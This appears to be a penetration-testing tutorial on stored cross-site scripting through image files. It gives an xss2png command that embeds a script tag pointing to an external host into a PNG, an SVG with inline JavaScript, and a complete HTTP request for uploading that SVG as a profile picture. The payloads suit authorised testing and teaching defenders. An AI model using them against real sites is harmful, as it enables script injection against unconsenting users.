 # Cross-Site Scripting (XSS)

### XSS PNG

```
python3 xss2png.py -p "<SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>" -o xss.png
```

{% embed url="https://github.com/vavkamil/xss2png" %}

### XSS SVG

Scalable Vector Graphics(SVG) is an XML-based vector image format for two-dimensional graphics with support for interactivity and animation.

The below code is an example of a basic SVG file that will show a picture of a rectangle:

```
<svg width="400" height="110">
  <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
</svg>
```

SVG files also support inline javascript code. For instance a developer might use javascript in an svg image so they can manipulate it in real time. This can be used for animation and other tasks.

Another thing to note is that SVG files can be treated as images in HTML. This means you can place a SVG file in a image tag and it will render perfectly:

```
<img src="rectangle.svg" alt="Rectangle" height="42" width="42">
```

#### XSS

If a website loads a SVG file with an XSS payload it will get executed. This is often over looked by developers and attackers alike. An example SVG file with an alert XSS payload can be found below:

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Ghostlulz XSS");
   </script>
</svg>
```

One easy way to test for this vulnerability is to upload a SVG file as your profile picture as shown in the below burp requests:

```
POST /profile/upload HTTP/1.1
Host: XXXXXXXXX.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Bearer XXXXXXXXXXXXXXXXXX
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
Connection: close
Referer: https://XXXXXXXXX
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Ghostlulz XSS");
   </script>
</svg>
-----------------------------232181429808--
```

Notice the content type is set to :

```
Content-Type: image/svg+xml
```

Once the image is uploaded you just need to find out what path it was uploaded to. This can easily be done by right clicking the image and selecting “copy image address” , if your using google chrome. If everything worked when you view the image your payload will execute. You just got stored XSS via a SVG file.

![](https://secureservercdn.net/198.71.233.229/1j8.930.myftpupload.com/wp-content/uploads/2019/10/Screen-Shot-2019-10-05-at-12.04.32-PM-1024x493.png)
